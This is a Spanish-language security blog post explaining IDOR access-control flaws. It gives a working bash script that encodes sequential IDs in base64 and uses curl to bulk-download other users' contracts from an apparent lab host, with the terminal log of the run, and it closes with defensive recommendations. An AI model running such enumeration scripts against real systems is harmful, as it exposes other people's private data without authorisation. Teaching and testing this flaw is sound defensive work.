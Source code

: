 ```yaml
---
date: 2024-05-26T05:15:05.000Z
layout: post
comments: true
title: Insecure Direct Object References (IDOR)
subtitle: 'Control de acceso'
description: >-
image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idorportada.png
optimized_image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idorportada.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - web
  - access
author: Felipe Canales Cayuqueo
paginate: true
---
```


Las vulnerabilidades de **Referencias Directas a Objetos Inseguros (IDOR)** son un tipo común de problema de seguridad en aplicaciones web. Estas ocurren cuando una aplicación web gestiona directamente referencias a objetos internos, como archivos o entradas de base de datos, a través de identificadores que son visibles y manipulables por el usuario, como en URLs o formularios.

Esto puede exponer a la aplicación a:

- **Divulgación de información**: Puedes acceder a datos sensibles de otros usuarios, como información financiera.
- **Modificación no autorizada**: Podrías alterar o eliminar datos de otros usuarios si la URL te permite realizar estas acciones.
- **Elevación de privilegios**: Si manipulas parámetros en la URL para acceder a funciones administrativas, podrías realizar acciones reservadas solo para los administradores.

### Ejemplo

Una aplicación web te permite visualizar tu perfil mediante un enlace del tipo `/profile/api.php/profile/1`. Este enlace muestra directamente datos de tu perfil por medio de una API. 

[![idor10](/images/idor10.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor10.png)

[![idor11](/images/idor11.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor11.png)

Si cambias el número de  `/profile/api.php/profile/1` en la URL a `4`, podrías acceder a datos de otros usuarios registrados si la aplicación no verifica adecuadamente tus permisos.

[![idor12](/images/idor12.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor12.png)

[![idor13](/images/idor13.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor13.png)


### Bypassing Encoded References

En muchos sistemas, los identificadores de objetos, como IDs de usuario o archivos, se transmiten en formatos codificados (por ejemplo, base64) para disfrazar la información o integrarse con tecnologías web de manera más fluida. Una vez que el atacante comprende cómo se estructuran los identificadores, puede modificarlos para intentar acceder a objetos a los que no debería tener acceso. Esto podría incluir cambiar un número de ID en un URL, parámetro de formulario o dentro de una cookie. 

Consideremos el siguiente ejemplo, donde se identifica el parámetro `contract`. Como se observa, este parámetro está codificado para URL.

[![idor7](/images/idor7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor7.png)

[![idor8](/images/idor8.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor8.png)

Para determinar el proceso de codificación, se puede analizar el código fuente. Esto permite comprender su funcionamiento y facilita la creación de un script que extraiga la información de manera efectiva.

[![idor9](/images/idor9.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor9.png)


- **Codificación en base64**: Usa el comando `echo -n $i | base64` para convertir cada número a base64.
- **Codificación URL**: Las cadenas base64 pueden contener los caracteres `+`, `/` y `=`, los cuales necesitan ser codificados para URLs para prevenir problemas en la interpretación de la URL.
- **Construcción de la URL completa**: Combina la URL base con la cadena codificada.
- **Descarga del archivo**: Usa `curl` para descargar el archivo y lo guarda con un nombre basado en el número de iteración.


```bash
#!/bin/bash

downloadContracts() {
  base_url="http://94.237.54.214:45922/download.php?contract="

  for i in {1..20}; do
    # Codificar el número en base64
    encoded=$(echo -n $i | base64)

    # Codificar la salida base64 para URL (reemplaza '+' por '%2B', '/' por '%2F' y '=' por '%3D')
    url_encoded=${encoded//+/%2B}
    url_encoded=${url_encoded//\//%2F}
    url_encoded=${url_encoded//=/%3D}

    # Construir la URL completa
    full_url="${base_url}${url_encoded}"

    # Descargar el archivo
    curl -o "contract_${i}.pdf" "${full_url}"
  done
}

# Llamada a la función
downloadContracts             
```

```bash
┌─[root@kali]─[/home/user/idor]
└──╼ chmod +x downloadcontracts.sh

┌─[root@kali]─[/home/user/idor]
└──╼ ./downloadcontracts.sh   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    30  100    30    0     0     72      0 --:--:-- --:--:-- --:--:--    72

┌─[root@kali]─[/home/user/idor]
└──╼ ls
contract_10.pdf  contract_12.pdf  contract_14.pdf  contract_16.pdf  contract_18.pdf  contract_1.pdf   contract_2.pdf  contract_4.pdf  contract_6.pdf  contract_8.pdf  downloadcontracts.sh
contract_11.pdf  contract_13.pdf  contract_15.pdf  contract_17.pdf  contract_19.pdf  contract_20.pdf  contract_3.pdf  contract_5.pdf  contract_7.pdf  contract_9.pdf        
```


### Recomendaciones

- Desarrollar un sistema robusto de control de acceso basado en roles (RBAC) para gestionar los permisos de los usuarios. Este sistema debe ser el núcleo de la aplicación y soportar la segmentación centralizada de roles y permisos.
- Asegurarse de que cada objeto y recurso en la aplicación esté asignado a roles específicos. Validar cada solicitud en el back-end para permitir o rechazar el acceso según los privilegios del rol del usuario.
- Los roles y privilegios del usuario deben gestionarse únicamente en el servidor, utilizando tokens de sesión seguros para autenticación y autorización.
- Implementar identificadores únicos y difíciles de adivinar, como UUIDs, para referenciar objetos en lugar de identificadores secuenciales o en texto claro.
- Generar y almacenar hashes de referencia de objetos en el servidor al momento de la creación del objeto. No calcular hashes en el front-end.
- Validar cada solicitud en el servidor para verificar que el usuario tiene los permisos adecuados antes de conceder acceso a cualquier recurso.

